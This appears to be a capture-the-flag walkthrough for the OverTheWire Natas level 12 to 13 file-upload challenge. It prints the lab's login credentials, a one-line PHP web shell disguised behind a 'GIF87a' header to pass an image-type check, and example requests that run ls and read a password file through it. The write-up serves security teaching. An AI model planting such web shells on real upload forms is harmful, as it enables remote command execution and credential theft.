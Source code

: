 # [Level 12 to 13](https://overthewire.org/wargames/natas/natas13.html) - Exploit file upload

- Login
```
URL: http://natas13.natas.labs.overthewire.org
Username: natas13
Password: trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC
```
- Exercise:
![image](https://github.com/user-attachments/assets/fb568b6c-a4dd-4674-80a0-4224ddceb4a0)
![image](https://github.com/user-attachments/assets/4ab9e2cb-459a-4fb5-8db5-7d4ba7773d02)

- Background:
  - Uses `exif_imagetype()` to check if the uploaded file is an image or not
  - This PHP function reads the first few bytes of a file to determine the file type
    - Won’t be fooled by just changing the file extension
    - If the file does not begin with the header bytes that indicate it actually is an image file, it will be rejected
    - GIF start with this headers: `GIF87a`
- Solution:
  - Save as file.php
  ```php
  GIF87a<?php echo shell_exec($_GET['e'].' 2>&1'); ?>
  ```
  ![image](https://github.com/user-attachments/assets/fc6dcc16-8861-4e41-8c8d-5ee8f5846fa3)
  ![image](https://github.com/user-attachments/assets/d5e520aa-77ef-4337-89f7-98b81bac8afc)
  ![image](https://github.com/user-attachments/assets/a811ae7c-046b-4e0c-b144-30c8fa48b21f)
  - Append URL with `?e=ls`: `http://natas13.natas.labs.overthewire.org/upload/oazgfldi85.php?e=ls` and then `http://natas13.natas.labs.overthewire.org/upload/oazgfldi85.php?e=cat%20/etc/natas_webpass/natas14`
  ![image](https://github.com/user-attachments/assets/4ce00eaa-62c0-4a50-957c-548ad0f41829)
- Password: `z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ`
